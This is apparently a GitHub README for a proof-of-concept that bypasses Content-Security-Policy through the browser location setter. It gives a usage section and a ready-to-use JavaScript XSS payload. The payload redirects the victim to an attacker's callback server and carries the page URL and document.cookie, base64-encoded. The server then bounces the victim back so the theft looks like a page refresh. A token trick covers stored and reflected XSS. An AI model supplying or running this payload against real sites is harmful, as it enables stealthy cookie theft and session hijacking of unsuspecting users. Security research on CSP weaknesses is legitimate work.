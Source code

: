 ## Bypass Content-Security-Policy to phish data

This demonstrates how the location setter of browsers are vulnerable to CSP bypassing.

This repo includes an example XSS payload and callback that, once executed, will change a browser's location to your callback server, which returns a **301 Moved Permanently** response sending the victim back to its referrer.

This example also includes a token to facilitate stored and reflected XSS; a token is added to the URL's anchor preventing the XSS payload from reactivating. It would of course be better practice if you extend this payload so that it removes the stored/reflected XSS entirely.

**When the attack is executed successfully, the victim experienced what seemed like a page refresh at most.**

## Usage

Use the following code in your XSS payload. You must change the new location's address to that of your callback server, and change the token at the very least.

You can shorten this code by removing the token if you are not using it in stored or reflected XSS.

```javascript
const token = "w3lRZ87e";
if (location.hash != token) globalThis.location = "https://mycallbackserver.net/callback.php" + 
  "?referer=" + encodeURIComponent(btoa(globalThis.location.href)) + 
  "&data=" + encodeURIComponent(btoa(document.cookie)) + 
  "&token=" + encodeURIComponent(btoa(token));
```

If the victim did not send a `referer` URL parameter, the attacker's server looks for a `Referer` header value. If neither of those are provided, the victim will be redirected to a panic address of your choice.
